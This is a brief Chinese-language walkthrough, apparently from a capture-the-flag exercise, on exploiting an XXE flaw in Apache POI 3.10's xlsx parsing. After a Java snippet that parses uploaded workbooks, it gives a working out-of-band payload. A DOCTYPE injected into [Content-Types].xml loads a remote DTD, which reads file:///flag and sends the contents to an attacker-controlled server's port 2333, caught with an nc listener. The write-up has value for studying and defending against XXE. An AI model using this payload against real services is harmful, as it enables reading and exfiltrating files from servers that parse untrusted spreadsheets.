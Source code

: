 案例：
3.10版本POI对一个xlsx文件解析，调用`Sheet`对象的`getFirstRowNum()`方法打印出第一行的行号。在Excel中，行号是从0开始计数的，所以`getFirstRowNum()`方法返回的是工作表中第一行的索引。
```
if (filename.startsWith("excel-") && "xlsx".equals(fileExtName)) {
    try {
        Workbook wb1 = WorkbookFactory.create(in);
        Sheet sheet = wb1.getSheetAt(0);
        System.out.println(sheet.getFirstRowNum());
    } catch (InvalidFormatException var20) {
        System.err.println("poi-ooxml-3.10 has something wrong");
        var20.printStackTrace();
    }
}
```
利用：
本地新建.xlsx文件，修改后缀名.zip，打开压缩包，其中有[Content-Types].xml文件。
修改[Content-Types].xml，第二行添加如下内容（原来的第二行放下面），保存。
```
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://远程服务器/xxx.dtd">
%remote;%int;%send;
]>
```
将修改后的压缩包重新修改后缀为.xlsx文件。


进入远程服务器WEB根目录，创建文件xxx.dtd，添加内容
```
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % int "<!ENTITY % send SYSTEM '远程服务器IP:2333/%file;'>">
```
启动监控 ：nc -lvvp 2333


上传.xlsx文件，此时自动解析触发XXE外部实体注入。
查看nc监听结果，读取到文件flag。